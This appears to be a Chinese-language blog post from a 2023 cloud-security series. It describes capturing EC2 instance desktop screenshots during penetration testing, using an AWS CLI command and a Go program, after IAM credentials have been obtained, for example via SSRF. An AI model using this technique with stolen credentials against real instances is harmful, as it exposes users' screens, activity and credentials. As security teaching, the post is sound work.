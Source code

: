 ```yaml
---
author: Sunny Tsai
title: "[Day 25] 天堂雲端 - EC2 桌面截圖（screenshot）"
date: 2023-10-08
math: true
tags: [
    "aws",
    "ec2",
    "screenshot"
]
categories: [
    "2023鐵人賽"
]
series: ["2023鐵人賽-天堂雲端之從開始到接管"]
---
```

# 桌面截圖
在滲透測試中，桌面截圖是一種獲得額外信息或增加攻擊者瞭解目標環境的重要手段
* 環境的實時視圖
    * 運行的應用程序、開放的文件、使用中的工具
* 行為模式
    * 通過定期截圖，攻擊者可以建立一個用戶的行為模式，了解最佳的攻擊時機。
* 身份驗證資訊 or 敏感訊息洩漏
    * 使用者可能在他們的桌面上放置了敏感的文件或便箋，或是被擷取到像Outlook或其他通信工具的登錄窗口

# AWS Cli
前提：要取得iam credential憑證（可以用SSRF等手段取得）
[get-console-screenshot](https://docs.aws.amazon.com/cli/latest/reference/ec2/get-console-screenshot.html)
```
> aws ec2 get-console-screenshot --instance-id {EC2_INSTANCE_ID} --output text
```

Output:
```
image bytes
```


# Code
前提：要取得iam credential憑證（可以用SSRF等手段取得）
```
package main

import (
	"bytes"
	"encoding/base64"
	"fmt"
	"image/jpeg"
	"os"

	"github.com/aws/aws-sdk-go/aws"
	"github.com/aws/aws-sdk-go/aws/credentials"
	"github.com/aws/aws-sdk-go/aws/session"
	"github.com/aws/aws-sdk-go/service/ec2"
)

func main() {
	// AWS Session
	sess, err := session.NewSession(&aws.Config{
		Region:      aws.String("XXXXXXXX"),
		Credentials: credentials.NewStaticCredentials("XXX", "XXXXXXXXXX", ""),
	})

	if err != nil {
		fmt.Println("Error creating session:", err)
		return
	}

	// EC2 Service Client
	svc := ec2.New(sess)

	// EC2 instance ID
	instanceID := "X-XXXXXXXXXXXXX"

	// Get console screenshot
	input := &ec2.GetConsoleScreenshotInput{
		InstanceId: aws.String(instanceID),
	}

	// Get screenshot result
	result, err := svc.GetConsoleScreenshot(input)
	if err != nil {
		fmt.Println("Error getting console screenshot:", err)
		return
	}

	// Decode screenshot
	imageData := *result.ImageData
	imgBytes, err := base64.StdEncoding.DecodeString(imageData)
	if err != nil {
		fmt.Println("Error decoding image data:", err)
		return
	}

	// Build image buffer
	imgBuf := bytes.NewReader(imgBytes)

	// Decode image
	img, err := jpeg.Decode(imgBuf)
	if err != nil {
		fmt.Println("Error decoding image:", err)
		return
	}

	// Build image file
	imgFile, err := os.Create("screenshot.jpg")
	if err != nil {
		fmt.Println("Error creating image file:", err)
		return
	}
	defer imgFile.Close()

	// Encode image to file
	jpeg.Encode(imgFile, img, nil)

	fmt.Println("Screenshot saved as screenshot.png")
}
```
